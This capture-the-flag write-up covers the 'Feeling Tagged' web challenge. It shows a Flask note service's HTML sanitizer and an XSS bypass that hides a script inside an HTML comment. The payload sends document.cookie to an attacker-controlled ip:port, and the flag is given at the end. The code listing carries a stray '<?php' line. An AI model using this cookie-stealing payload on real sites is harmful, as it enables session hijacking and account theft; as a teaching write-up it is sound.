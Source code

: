 # Feeling Tagged
> Check out my new note service! It supports all the formatting you'll ever need.

> Flag is in admin's cookies.

## About the Challenge
We are given a python file like the code below
```python
<?php
from flask import Flask, request, redirect
from bs4 import BeautifulSoup
import secrets
import base64

app = Flask(__name__)
SAFE_TAGS = ['i', 'b', 'p', 'br']

with open("home.html") as home:
    HOME_PAGE = home.read()

@app.route("/")
def home():
    return HOME_PAGE

@app.route("/add", methods=['POST'])
def add():
    contents = request.form.get('contents', "").encode()
    
    return redirect("/page?contents=" + base64.urlsafe_b64encode(contents).decode())

@app.route("/page")
def page():
    contents = base64.urlsafe_b64decode(request.args.get('contents', '')).decode()
    
    tree = BeautifulSoup(contents)
    for element in tree.find_all():
        if element.name not in SAFE_TAGS or len(element.attrs) > 0:
            return "This HTML looks sus."

    return f"<!DOCTYPE html><html><body>{str(tree)}</body></html>"
```
If you run the code, the code will create a web application about temporary HTML note service. There are 3 endpoints, `/`, `/add`, and `/page`. Endpoint `/` will return `HOME_PAGE` variable which contain the contain of the HTML file. The `/add` endpoint will encode the value from the from. And the `/page` will parses the input but there are some sanitization.
- Only `i p b br` tag HTML are allowed
- Cannot using any HTML that has an attribute

## How to Solve?
This challenge is about XSS and then send the payload to `nc redacted 10704` to get the admin cookie (The flag is stored in the admin cookie). To bypass the sanitization we gonna use the comment
```
<!--><script>window.location.replace("http:/ip:port/?cookie="+document.cookie);</script -->
```
After we send the URL to nc, we gonna retrieve the password
```
irisctf{security_by_option}
```